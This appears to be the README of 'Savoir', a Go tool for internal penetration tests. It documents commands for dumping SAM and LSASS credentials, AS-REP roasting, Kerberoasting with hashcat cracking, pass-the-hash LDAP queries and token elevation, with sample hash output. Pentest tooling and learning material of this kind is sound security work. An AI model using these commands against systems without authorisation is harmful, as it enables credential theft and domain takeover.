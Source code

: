 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting 

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
# target a specific user
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> --format=john
# target all users in domain
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> --ldap-user <LDAP_USERNAME> --ldap-password <LDAP_PASSWORD> rc4 --format=john
```


#### Kerberoasting

```bash
# target a specific SPN
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --spn <SPN> --output <HASHES>
# target all SPN in the domain (use the same credentials to query LDAP or use an other account)
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> --ldap --output <HASHES>
# Recover the password
hashcat -m 13100 -a 0 <HASHES> <PASSWORDS>
```


### LDAP

```bash
# Use a domain account with a password
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -q <QUERY>
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -n <NTLM_HASH> -q <QUERY>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```

## Scanner

### TCP Scanner

This is a TCP connect scanner using Go `net.Dialer` to test if there is 
opned services.

```bash
savoir scanner tcp --host scanme.nmap.org --json
```


## Credits

- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz)
- [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- [jcmturner/gokrb5](https://github.com/jcmturner/gokrb5)
